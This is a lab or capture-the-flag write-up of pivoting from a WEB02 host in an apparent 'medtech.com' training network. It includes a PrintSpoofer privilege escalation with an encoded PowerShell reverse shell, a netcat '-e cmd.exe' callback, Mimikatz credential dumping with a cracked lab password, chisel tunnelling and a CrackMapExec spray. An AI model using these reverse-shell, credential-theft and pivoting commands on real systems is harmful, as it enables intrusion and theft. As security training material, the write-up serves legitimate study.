









# WEB02 Pivot

## Internal Enumeration

So my first attempt of enumeration went poorly. I set up a chisel proxy, and ran `nmap -sS ...` over the proxy. All of the machines' reports looked like this:

<figure><figcaption><p>Scan unhelpful</p></figcaption></figure>

Not finding this particularly helpful I decided to see what else was on the WEB02 machine before trying to get in the network.

**Note Added Afterwards:** according to [this article](https://ine.com/blog/pentesting-101-hiding-while-fingerprinting) only Nmap TCP Connect scans (`-sT`) work over a SOCKS proxy so that is probably the cause of this.

## Privilege Escalation

I run `whoami /all` and my user has `SeImpersonatePrivilege`:

<figure><figcaption><p>Current user</p></figcaption></figure>

I download PrintSpoofer and give it a go. my first attempt ran whoami successfully and showed me it works by coming back SYSTEM. I then used it with an encoded PowerShell reverse shell and caught it on my machine. Now I am `SYSTEM`:

```
.\PrintSpoofer.exe -i -c 'powershell -nop -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADQANQAuADEANQA0ACIALAA4ADAAOAAwACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=='
```

<figure><figcaption><p>PrintSpoofer commands</p></figcaption></figure>

<figure><figcaption><p>Elevated shell</p></figcaption></figure>

## Internal Network Enumeration Take 2

I now set up a Chisel client again same thing.

## Lateral Movement

I need to try something else.

### Mimikatz

I start looking around for what else might be on the machine and since I have such elevated access I decide to try Mimikatz.

In order to interact with the tool I needed a more stable shell. I use my current shell to download Netcat and then launch it with PrintSpoofer:


```powershell
.\PrintSpoofer.exe -c 'C:\Temp\nc.exe -e cmd.exe 192.168.45.154 8080'
```


With this shell I download and run Mimikatz. Once running I use `sekurlsa::logonpasswords` and start looking through the output. I find the hash for `joe`:

<figure><figcaption><p>joe user hash</p></figcaption></figure>

#### Cracking the Hash

Use `hashcat`:


```
08d7a47a6f9f66b97b1bae4178747494

```



```bash
hashcat -m 1000 -a 0 -w 3 -o joe.cracked joe.ntlm /usr/share/wordlists/rockyou.txt
```


It cracks to which is validated and then added to `creds.txt`:

<figure><figcaption><p>Validating password with CME</p></figcaption></figure>


```
medtech.com\joe:Flowers1    Extracted via Mimikatz from WEB02
```


### Checking SSH Access

First I check if joe has SSH access to the other 2 externally avaialble machines but no:

<figure><figcaption><p>No SSH access</p></figcaption></figure>

It seems the path is not through those machines via SSH.

## Internal Network Enumeration

I really see no way forward so I decide to take another stab at network enumeration. I try a different nmap scan type. First on one host but it works so then I do all internal hosts.

### Chisel Proxy

I use my SYSTEM shell on WEB02 to launch a chisel client. To run it in the foreground I normally use:

```powershell
C:\Temp\chisel.exe client 192.168.45.154:5985 R:socks
```

However it turns out there is a [better way](https://notes.benheater.com/books/network-pivoting/page/port-forwarding-with-chisel#bkmrk-powershell) if I have a PowerShell session:


```powershell
$scriptBlock = { Start-Process C:\Temp\chisel.exe -ArgumentList @('client','192.168.45.154:5985','R:socks') }; Start-Job -ScriptBlock $scriptBlock
```


* May need to update path to `chisel.exe` depending on download location
* `-ArgumentList` array is basically just the same arguments that would be used in the command just as a comma-separated array of strings
* `Start-Job` runs this code in the background allowing me to maintain use of my shell

This one-liner will run it in the background. Also as seen in the linked example, if I wanted to use a non-SOCKS proxy I can start several of them at once by including multiple `'R:..','R:...'` statements in the `-ArgumentList` array

### Nmap

I run Nmap over proxychains but this is super slow so I give up the luxury of a full port scan. Instead I just run:


```bash
sudo proxychains nmap -sT -Pn -A -p- -o web02_connect_internal.nmap 172.16.215.10-14,82-83
```



```
# Nmap 7.94SVN scan initiated Thu Jul 25 15:16:29 2024 as: nmap -sT -Pn -A -o web02_connect_internal.nmap 172.16.215.10-14,82-83
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
Nmap scan report for 172.16.215.10
Host is up (0.0017s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-07-25 23:18:49Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: medtech.com0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: medtech.com0., Site: Default-First-Site-Name)
OS fingerprint not ideal because: Didn't receive UDP response. Please try again with -sSU
No OS matches for host
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-07-25T23:21:02
|_  start_date: N/A


Nmap scan report for 172.16.215.11
Host is up (0.00011s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
OS fingerprint not ideal because: Didn't receive UDP response. Please try again with -sSU
No OS matches for host
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-07-25T23:20:51
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required


Nmap scan report for 172.16.215.12
Host is up (0.00011s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DEV04.medtech.com
| Not valid before: 2024-03-27T16:42:35
|_Not valid after:  2024-09-26T16:42:35
|_ssl-date: 2024-07-25T23:21:45+00:00; 0s from scanner time.
OS fingerprint not ideal because: Didn't receive UDP response. Please try again with -sSU
No OS matches for host
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-07-25T23:21:13
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required


Nmap scan report for 172.16.215.13
Host is up (0.00010s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
OS fingerprint not ideal because: Didn't receive UDP response. Please try again with -sSU
No OS matches for host
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-07-25T23:21:15
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required


Nmap scan report for 172.16.215.14
Host is up (0.00011s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 eb:0e:77:7c:69:f2:4a:a5:65:2a:1c:ec:ec:6e:79:19 (RSA)
|   256 74:51:ee:1e:8f:61:d6:0f:c5:11:52:2e:f9:ef:ac:29 (ECDSA)
|_  256 5f:4f:29:47:7a:14:65:4d:bc:f3:74:40:a7:45:7e:94 (ED25519)
OS fingerprint not ideal because: Didn't receive UDP response. Please try again with -sSU
No OS matches for host
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


Nmap scan report for 172.16.215.82
Host is up (0.00012s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-07-25T23:21:45+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=CLIENT01.medtech.com
| Not valid before: 2024-03-27T17:51:36
|_Not valid after:  2024-09-26T17:51:36
OS fingerprint not ideal because: Didn't receive UDP response. Please try again with -sSU
No OS matches for host
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-07-25T23:21:15
|_  start_date: N/A


Nmap scan report for 172.16.215.83
Host is up (0.00013s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
OS fingerprint not ideal because: Didn't receive UDP response. Please try again with -sSU
No OS matches for host
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-07-25T23:21:18
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Post-scan script results:
| clock-skew: 
|   0s: 
|     172.16.215.11
|     172.16.215.83
|     172.16.215.82
|     172.16.215.12
|     172.16.215.13
|_    172.16.215.10
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul 25 17:21:47 2024 -- 7 IP addresses (7 hosts up) scanned in 7518.76 seconds

```


* `traceroute` results were removed because the proxy made them weird

### SMB Spray

As I am watching the Nmap output I can see SMB ports open so I decide to try to proxychains a CME spray:


```bash
proxychains crackmapexec smb ./internal/hosts.txt -d 'medtech.com' -u 'joe' -p 'Flowers1' --shares
```


I find a lot of valuable information:

<figure><figcaption><p>CME Spray</p></figcaption></figure>

I also check WinRM and one of those turns up as well:

<figure><figcaption><p>WinRM Access</p></figcaption></figure>

### Machines

The CME spray also gave me the names of several of the internal network machines which I save into `machines.txt` in the internal directory:


```
172.16.215.10   DC01
172.16.215.11   FILES02
172.16.215.12   DEV04
172.16.215.13   PROD01
172.16.215.14
172.16.215.82   CLIENT01
172.16.215.83   CLIENT02
```


At this point I think it is time to look at the internal network.
